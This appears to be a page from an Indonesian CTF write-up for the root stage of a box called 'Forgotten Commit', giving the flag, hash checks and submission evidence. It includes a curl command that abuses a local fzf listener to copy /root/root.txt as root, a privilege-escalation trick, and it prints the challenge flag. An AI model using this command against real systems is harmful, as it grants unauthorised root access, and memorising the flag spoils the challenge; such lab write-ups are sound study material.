


# Forgotten Commit (Root) — Flag & Verifikasi

[← Overview](01-forgotten-commit-root.md) · [Index](index.md)

> **Flag:** `NFX{fzf_l1st3n_r00t_sh3ll_pwn3d}`
> **Status:** `VERIFIED`

```text
NFX{fzf_l1st3n_r00t_sh3ll_pwn3d}
```

Verifikasi lokal:

```text
$ sha256sum flags/b2r/ForgottenCommit_Root.txt
9741bf6669fe4ac49367188c047bba5ff8c4d249fc317fcd840d1a7dcdb1063b  flags/b2r/ForgottenCommit_Root.txt

$ wc -c flags/b2r/ForgottenCommit_Root.txt
33 flags/b2r/ForgottenCommit_Root.txt
```

Flag dibaca ulang sebagai root lewat listener fzf:

```bash
curl -sS -X POST --data-binary \
  'execute(cp /root/root.txt /tmp/rootflag; chmod 644 /tmp/rootflag)' \
  http://127.0.0.1:1337/
cat /tmp/rootflag
# NFX{fzf_l1st3n_r00t_sh3ll_pwn3d}
```

Status: **VERIFIED platform**. Flag sudah dicek ulang pada 2026-11-09 dan
diterima (`Correct, but already solved.`). Submit log mentah lama tidak
tersimpan di `work/`, tetapi recheck platform menjadi bukti verifikasi terbaru.

### Bukti submit di platform



*Submit flag di platform: `CORRECT, BUT ALREADY SOLVED.`*

### Evidence langkah ini



*Terminal evidence — live rerun 2026-11-09 (`04-live-flag.txt`).*

**Berkas mentah langkah ini:**

- [`04-live-flag.txt`](assets/forgotten-commit-root/04-live-flag.txt)
